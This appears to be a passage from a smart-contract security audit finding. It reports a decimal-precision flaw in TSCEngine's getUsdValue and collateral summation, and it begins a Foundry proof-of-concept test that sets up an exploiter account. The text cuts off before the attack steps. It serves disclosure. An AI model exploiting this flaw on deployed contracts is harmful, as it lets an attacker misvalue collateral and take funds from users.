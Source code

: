 This line from `TSCEngine#getUsdValue()` contains the same issue but in the opposite direction. The return value always has the same number of decimals as the token itself, whereas it is supposed to be an 18-decimal USD amount.
```solidity
return ((uint256(price) * ADDITIONAL_FEED_PRECISION) * amount) / PRECISION;
```

When various USD values are added together in this line from `TSCEngine#getAccountCollateralValue()`, the total collateral value is incorrect because the terms of the sum may have different decimals, and therefore different frames of reference.
```solidity
totalCollateralValueInUsd += getUsdValue(token, amount);
```

A proof of concept for the attack is provided below. Note that this test utilizes the slightly modified version of `HelperConfig.s.sol` shown in the diff at the bottom of this submission, which creates mock tokens with differing decimals.
```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.19;

import {DeployTSC} from "../../script/DeployTSC.s.sol";
import {TSCEngine} from "../../src/TSCEngine.sol";
import {DecentralizedStableCoin} from "../../src/DecentralizedStableCoin.sol";
import {HelperConfig} from "../../script/HelperConfig.s.sol";
import {ERC20DecimalsMock} from "@openzeppelin/contracts/mocks/ERC20DecimalsMock.sol";
import {MockV3Aggregator} from "../mocks/MockV3Aggregator.sol";
import {Test, console} from "forge-std/Test.sol";
import {StdCheats} from "forge-std/StdCheats.sol";

contract TokenDecimalExploit is StdCheats, Test {
    TSCEngine public TSCe;
    DecentralizedStableCoin public TSC;
    HelperConfig public helperConfig;

    address public ethUsdPriceFeed;
    address public btcUsdPriceFeed;
    address public weth;
    address public wbtc;
    uint256 public wethDecimals;
    uint256 public wbtcDecimals;
    uint256 public feedDecimals;
    uint256 public deployerKey;

    address public user = address(1);
    address public exploiter = address(2);

    uint256 public constant STARTING_USER_BALANCE = 10 ether;
    uint256 public constant MIN_HEALTH_FACTOR = 1e18;
    uint256 public constant LIQUIDATION_BONUS = 10;
    uint256 public constant LIQUIDATION_THRESHOLD = 50;
    uint256 public constant LIQUIDATION_PRECISION = 100;

    function setUp() external {
        DeployTSC deployer = new DeployTSC();
        (TSC, TSCe, helperConfig) = deployer.run();
        (ethUsdPriceFeed, btcUsdPriceFeed, weth, wbtc, deployerKey) = helperConfig.activeNetworkConfig();
        if (block.chainid == 31337) {
            vm.deal(user, STARTING_USER_BALANCE);
        }
        ERC20DecimalsMock(weth).mint(user, STARTING_USER_BALANCE);
        ERC20DecimalsMock(wbtc).mint(user, STARTING_USER_BALANCE);
        ERC20DecimalsMock(weth).mint(exploiter, STARTING_USER_BALANCE);
```